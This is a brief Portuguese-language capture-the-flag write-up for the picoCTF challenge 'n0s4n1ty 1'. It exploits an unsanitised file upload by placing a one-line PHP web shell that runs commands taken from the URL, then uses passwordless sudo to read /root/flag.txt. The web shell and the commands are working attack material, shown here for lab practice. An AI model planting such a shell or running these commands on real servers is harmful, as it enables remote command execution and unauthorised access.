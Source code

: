 # n0s4n1ty 1

https://play.picoctf.org/practice/challenge/482?category=1&difficulty=1&originalEvent=74&page=1

Um desafio bem interessante onde temos o upload de arquivo não sanitizado. Ao realizar um upload, vemos que é usado php para isso.
Logo podemos criar um código php que irá aceitar comandos linux via URL.

```php
<? echo shell_exec($_GET['cmd'].' 2>&1'); ?>
```

desta forma podemos rodar dentro da URL: ?cmd=ls

Ao checar nossas permissões com "sudo -l" vemos que não precisamos de senhas para executar tarefas. Então podemos utilizar dentro da URL:

```
?cmd=sudo cat /root/flag.txt
```

